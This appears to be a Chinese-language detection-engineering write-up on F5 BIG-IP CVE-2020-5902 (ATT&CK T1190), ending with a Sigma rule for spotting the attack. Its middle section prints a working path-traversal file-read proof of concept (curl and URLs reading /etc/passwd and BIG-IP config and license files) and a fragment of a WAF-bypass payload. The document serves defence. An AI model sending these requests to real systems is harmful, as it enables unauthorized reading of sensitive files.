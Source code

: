 # T1190-CVE-2020-5902-F5_BIG-IP-远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

F5 BIG-IP 是美国F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。在 F5 BIG-IP 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

未授权的远程攻击者通过向该页面发送特制的请求包，可以造成任意Java 代码执行。进而控制 F5 BIG-IP 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。

漏洞影响范围：

11.6.x, 12.1.x, 13.1.x, 14.1.x, 15.0.x, 15.1.x

## 检测日志

HTTP.log

## 测试复现

漏洞利用建议参考：

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>

## 测试留痕

暂无实测，故无留痕。直接引用漏洞利用建议参考中的案例数据进行特征提取。

### 文件读取POC

```yml
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### 通过java反序列化绕过waf的payload

```yml
String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/"; #截取部分内容
```

## 检测规则/思路

建议使用HTTP流量+安全设备进行检测分析判断攻击是否成功。

```yml
title: CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞
status: experimental
references:
    - https://blog.csdn.net/wuyou1995/article/details/107170186/
    - https://www.cnblogs.com/potatsoSec/p/13263806.html
author: Florian Roth
translator: 12306Bro
date: 2020/07/05
logsource:
    category: webserver
detection:
    selection_base:
        c-uri|contains: 
            - '/tmui/'
            - '/hsqldb'
    selection_traversal:
        c-uri|contains:
            - '..;/'
            - '.jsp/..'
    condition: selection_base and selection_traversal
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
tags:
    - attack.initial_access
    - attack.t1190
level: critical
```

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>